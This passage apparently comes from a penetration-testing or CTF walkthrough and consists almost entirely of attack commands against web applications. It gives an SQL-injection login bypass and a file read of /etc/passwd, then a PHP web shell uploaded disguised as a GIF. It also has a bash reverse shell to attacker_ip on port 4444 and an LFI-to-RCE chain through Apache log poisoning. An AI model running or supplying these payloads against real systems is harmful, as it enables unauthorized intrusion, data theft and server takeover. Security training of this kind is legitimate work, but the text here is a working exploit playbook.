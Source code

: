 **Step 2: Vulnerability Discovery**
```bash
# Found admin panel at /admin/
# SQL injection in login form
curl -d "username=admin'--&password=anything" http://target_ip/admin/login.php
```

**Step 3: Exploitation**
```sql
# Authentication bypass
username: admin'--
password: anything

# Post-authentication SQL injection in search
search=test' UNION SELECT load_file('/etc/passwd')--
```

**Step 4: File Upload Abuse**
```php
# Upload PHP shell via admin panel
<?php system($_GET['cmd']); ?>
# Saved as: shell.php.gif with Content-Type: image/gif
```

**Step 5: Shell Access**
```bash
# Access uploaded shell
curl "http://target_ip/uploads/shell.php.gif?cmd=whoami"

# Establish reverse shell
curl "http://target_ip/uploads/shell.php.gif?cmd=bash -i >& /dev/tcp/attacker_ip/4444 0>&1"
```

### Example 2: LFI to RCE Chain

**Target:** File management application

**Step 1: LFI Discovery**
```bash
# Parameter fuzzing reveals file parameter
curl "http://target_ip/view.php?file=../../../etc/passwd"
```

**Step 2: Log Poisoning**
```bash
# Poison Apache access log
curl -A "<?php system(\$_GET['cmd']); ?>" http://target_ip/

# Include poisoned log
curl "http://target_ip/view.php?file=../../../var/log/apache2/access.log&cmd=whoami"
```

**Step 3: RCE Achievement**
```bash
# Command execution achieved
curl "http://target_ip/view.php?file=../../../var/log/apache2/access.log&cmd=id"
```

---